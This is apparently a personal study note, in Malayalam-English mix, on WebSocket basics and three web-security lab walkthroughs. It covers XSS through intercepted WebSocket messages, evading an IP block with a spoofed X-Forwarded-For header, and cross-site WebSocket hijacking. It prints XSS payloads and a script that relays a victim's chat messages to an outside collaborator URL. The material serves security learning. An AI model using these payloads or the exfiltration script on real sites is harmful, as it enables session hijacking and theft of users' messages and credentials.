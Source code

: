 ## WebSockets :
-->oru http request enganeyan work chyunath enn aadyam nokam.web server umayi connect chyan nammal http/https enna protocols use chyunu.ee protocols use chyth url il namuk venda request ayakunu
-->reqeust ayach response kitunath vere oru TCP connection undakunu.enit response kitikazhinjal aa TCP connection close aakum(Note: port connection undakum).eg: oru site 5 different request ayakunundengil 5 different tcp connections seperate aayi undakkunu.response kitunathinanusarich oro connection um close aakunu
-->Websockets involve aakuna samayath ws:// oru wss:// enna protocol aan use chyuka ie,wss://google.com.ws http pole encruption ila.so wss aan nallath(TLS connection undakum)
-->WebSocket connections are initiated over HTTP.To establish the connection, the browser and server perform a WebSocket handshake over HTTP
-->http/https use unidirectional communication.athayath sender oru request trigger chythale response kitu
-->Websockets are bidirectional.athayath sender can send the data and the receiver can also send the data(sender enthengilum request ayachale server enthengilum ayaku enna paripadi ivide illa) eg: chat application.so browser il namal chat window open chythu enit namude friend in oru hai ayakunu.apol ee mesg server ilek pokunu enit server aan friend in ee hait enna msg ayakunath.so sender um data send chyunu server um data send chyunu
-->Websockets dont close the connection which they open.so oru client server umayi connection establish chythal onnengil client allengil server connection close chyanam alland connection close aakila
-->browser il oke game kalikumbol namuk manual aayi page refresh chyuo onum venda automatic aayi refresh aayikolum karanam namuk connection open aayi thane kidkualle.
-->chat applications heavily use Websockets
-->real time updates kitanengil websockets thane use chyanam.old datas oke kitan aangengil nammal http thane use chyunathan nallath ath ini api aanaengilum
-->presesntly nadakuna datas kitan matharamam wesockets use chyendath
-->websockets il origin vulnerability undakum.so correct aayi origin validate chyanam ilengil cors polula exploit undakam


             Lab-1(Manipulating WebSocket messages to exploit vulnerabilities)
-->burp il prxy tab il http history yude apartheyit websockets history enna tab und athilan websockets inte traffic kanan patuka
-->so ivide lab il oru live chat enna button und so athil click chythal avarumayi namuk chat chyam.burp il nokiyal manasilakum websocket use chythan live chat chyunathenn
-->so message il `<hello > xss` ennoke adikuka enit nokiyal manasilakum `<>` polulla symbols server ilek send chyunathin mumb client side il ninum html-encode chyununden
-->ith manasilkana websockets history alla athinekal nallath intercept on aakuka enit `< hello >` enn adich send adikumbol ath intercept chyum apol thane namuk kanam ee symbols oke html-encode chyununden
-->so nammal enth chyanam ennal client side il ee encoding nadathan anuvadhichooda.so onukoodu intercept on aakuka
-->enit message il enthengilum adikuka.enit intercept chythit avide nammal xss payload kodukuka apol client in encode chyanum patila ath nere server ilek pokukayum chyum xss trigger aakukayum chyum
-->so aadyam enthengilum msg il kodukuka enit ath intercept chyth athile ulla message remove chythit ee paylaod kodukuka ->`<img src=1 onerror='alert(1)'>` enit intercept on aayal ee xss popup trigger aakum

==============================================================

           Lab-2(Manipulating the WebSocket handshake to exploit vulnerabilities)
-->ividem nerthepole live chat il aan test chyunath.so live chat button click chyth message ayakuka
-->enit aa ayacha message repeater ilek viduka.enit oru xss payload kodukuka- `<img src=1 onerror='alert(1)'>` enit repeater il send chyuka
-->apol kanam namude connection terminate aayi athupole thane namale block um aaki
-->so repreater il thane reconnect enna option und athil click chyth reconnect chyan nokumbol connect aakunila
-->so chelapo namude ip adress vech namale block chyunathakum.ath check chyan `X-Forwarded-For: 1.1.1.1` enna header use chyuka enit connect adikumbol namuk pinem reconnect chyan kazhiyunund
-->ini adutha payload check chyanam ->``<img src=1 oNeRrOr=alert`1`>`` ee payload itt test chyumbol error onum kanikunila.illengil attack enno mato kanikum repeateri ile history optionil 
-->repeater il history enna oru box und athil nammal chyunathellam kanikum
-->so ini browser il nammal aa live chat page reload chythal aakila.so burp il intercept on aakuka enit live chat page reload chyuka enit burp il oro request ilum `X-Forwarded-For: 1.1.1.1` ee header kodukanam enit avasanam aa page load aakum apol xss trigger aakum

==============================================================

### cross-site WebSocket hijacking :
-->Cross-site WebSocket hijacking (also known as cross-origin WebSocket hijacking) involves a cross-site request forgery (CSRF) vulnerability on a WebSocket handshake
-->It arises when the WebSocket handshake request relies solely on HTTP cookies for session handling and does not contain any CSRF tokens or other unpredictable values.
-->An attacker can create a malicious web page on their own domain which establishes a cross-site WebSocket connection to the vulnerable application. The application will handle the connection in the context of the victim user's session with the application.
-->The attacker's page can then send arbitrary messages to the server via the connection and read the contents of messages that are received back from the server. This means that, unlike regular CSRF, the attacker gains two-way interaction with the compromised application.
-->oru eg nokam :
             
			  GET /chat HTTP/1.1 
              Host: normal-website.com 
              Sec-WebSocket-Version: 13 
              Sec-WebSocket-Key: wDqumtseNBJdhkihL6PW7w== 
              Connection: keep-alive, Upgrade 
              Cookie: session=KOsEJNuflw4Rd9BDNrVmvwBF9rEijeE2 
              Upgrade: websocket
              
-->the above WebSocket handshake request is probably vulnerable to CSRF, because the only session token is transmitted in a cookie
-->==The Sec-WebSocket-Key header contains a random value to prevent errors from caching proxies, and is not used for authentication or session handling purposes==
-->If the WebSocket handshake request is vulnerable to CSRF, then an attacker's web page can perform a cross-site request to open a WebSocket on the vulnerable site. What happens next in the attack depends entirely on the application's logic and how it is using Websockets

==============================================================


           Lab-3(Cross-site WebSocket hijacking)
-->ivide namal lab il keruka enit athil live chat option undakum athil keri enthengilum msg type chyuka enit chat il ninum leave chyuka
-->enit thirich live chat ilek veendum kerumbol kanam nammal nerethe type chytha mesages oke namuk browser il kitunund. ie, that the "READY" command retrieves past chat messages from the server
-->In Burp Proxy, in the HTTP history tab, find the WebSocket handshake request. Observe that the request has no CSRF token
-->ee attack ozhivakan server oru origin: header use chyanam enn thonunu karnam csrf attack nadakumbol vere origin il ninanallo request varuka . ith ilengil victim already logged in aan athupole session cookie und so server in oru samshayavum varila.athukond thane attack nadakum
-->ini aa /chat request il poi right click chyth copy url adikuka.ee request il aan websocket umayi handshake nadakunath so ithinte url aan vendath
-->in csrf script undakam :
 
 <script>
    var ws = new WebSocket('wss://your-websocket-url');
    ws.onopen = function() {
          ws.send("READY");
    };
    ws.onmessage = function(event) {
          fetch('https://your-collaborator-url', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>

-->namal burp collaborator client use chyunun. ini deliver to exploit adikuka
-->enit collaborator il poi poll click chyuka apol namuk kanan kazhiyum http requests
-->so athil oronum click chyth request oke study chyuka.apol namuk carlos inte past messages oke kanan patum.so athil avan password forgot aayi enn parayunu.
-->so avan password live chat il ayackkodukunu server so aa password eduth carlos aayi log in chyuka apol lab solve aayi ok.